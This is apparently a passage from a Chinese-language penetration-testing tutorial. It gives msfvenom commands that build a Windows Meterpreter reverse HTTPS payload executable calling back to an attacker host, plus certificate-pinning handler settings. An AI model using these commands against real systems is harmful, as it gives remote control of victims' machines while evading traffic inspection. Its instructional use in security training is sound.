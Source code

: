 ![](img/47258e16-84a4-43ae-9b07-dbe445ac2b7a.png)

我们相应地填写国家代码等信息和其他信息：

```
 cat meterpreter.key meterpreter.crt > meterpreter.pem
```

2.  前面的命令基本上是先打开两个文件，然后将它们写入一个文件。然后，我们使用生成的证书生成有效负载，使用以下方法：

```
 msfvenom -p windows/meterpreter/reverse_winhttps LHOST=IP
        LPORT=443 HandlerSSLCert=meterpreter.pem
        StagerVerifySSLCert=true
        -f exe -o payload.exe
```

以下屏幕截图显示了前面命令的输出：

![](img/32122a12-11f3-44bd-8b56-fd08c8dcb269.png)

3.  要设置选项，请使用以下命令：

```
 set HandlerSSLCert /path/to/pem_file
 set StagerVerifySSLCert true
```
